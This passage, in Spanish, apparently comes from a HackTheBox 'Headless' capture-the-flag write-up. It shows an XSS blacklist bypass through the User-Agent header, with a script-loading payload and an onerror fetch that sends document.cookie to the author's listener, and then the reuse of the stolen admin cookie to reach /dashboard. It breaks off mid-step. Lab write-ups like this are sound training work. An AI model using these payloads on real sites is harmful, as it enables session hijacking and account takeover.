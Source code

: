 ![](/assets/images/htb-writeup-headless/Pasted image 20240601110815.png)

ha detectado el ataque, esto a qué aparentemente tiene **blacklist** para los intento de **XXS**, intenté bypassearla de varias maneras, usando hexadecimal, incluso de otras maneras contempladas en **HackTricks**, pero no logré nada éxitoso. PERO...

Si leemos el mensaje, dice que la IP se reportó a los administradores para la investigación del navegador, sabemos que el navegador corresponde al **"user-agent"** en las cabeceras de la solicitud, por ende se supone que los administradores verán eso, por lo que se me ocurre ahí cargar el payload para tratar de llevar a cabo el **XXS.**

Usaré **Burpsuite** como proxy para modificar la petición antes que llegue al servidor & manipular el **"user-agent"**, tal que así:

![](/assets/images/htb-writeup-headless/Pasted image 20240601111954.png)
```bash
<script src="http://TU_IP/test"></script>
```

nos montamos un servidor en python aunque no exista el recurso, sólo para ver sí el payload y el recurso "**test**" lo están intentando cargar.
```bash
python3 -m http.server 80
```
![](/assets/images/htb-writeup-headless/Pasted image 20240601112013.png)

Vemos que alguien está intentando cargar el recurso "**test**" de nuestra máquina, así que se me ocurre usar otro payload **XXS** para robarnos la cookie de sesión de quién intente obtener el recurso (quizás el admin).

![](/assets/images/htb-writeup-headless/Pasted image 20240601112326.png)
```bash
<img src=x onerror=fetch('http://10.10.14.3/'+document.cookie);>
```

y nos reportaría la cookie de sesión en nuestro servidor Python.
![](/assets/images/htb-writeup-headless/Pasted image 20240601112933.png)


copiamos esta cookie, abrimos nuestro navegador, y ponemos esta cookie de sesión. (De no saber hacerlo investigar como poner cookie de sesión en su navegador), en el caso de Firefox es así:

**CTRL + SHIF + C > Network**

y en "**value**" la ponemos.

![](/assets/images/htb-writeup-headless/Pasted image 20240601113202.png)

Ahora intento ver sí tengo permisos para ver el directorio "**/dashboard**", y...

![](/assets/images/htb-writeup-headless/Pasted image 20240601113254.png)

he logrado obtener una cookie válida para ver el **dashboard**, y vemos que podemos generar reportes, no veo nada interesante de primera, así que opto interceptar los reportes con **BurpSuite**.

Viendo la siguiente data en la petición:
